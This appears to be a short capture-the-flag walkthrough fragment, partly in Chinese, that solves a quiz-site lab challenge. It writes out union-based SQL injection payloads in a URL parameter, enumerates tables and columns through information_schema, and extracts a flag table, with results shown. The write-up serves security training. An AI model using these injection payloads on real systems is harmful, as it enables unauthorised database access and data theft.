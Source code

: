 ```
http://eci-2zeiglmgxybklc8oz8s6.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&n=1&t=10&eid=5b141f1e8399e' or 1=1 union select 1,2,database(),4,5 --%20
```

![image-20230615212318358](%E9%9D%B6%E5%9C%BA.assets/image-20230615212318358.png)

```
' union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema='ctf' --%20
结果：  user,options,quiz,admin,questions,history,rank,flag,answer
' union select 1,2,group_concat(column_name),4,5 from information_schema.columns where  table_name='flag' --%20
结果：  flag
' union select 1,2,flag,4,5 from flag --%20
结果：下面
```
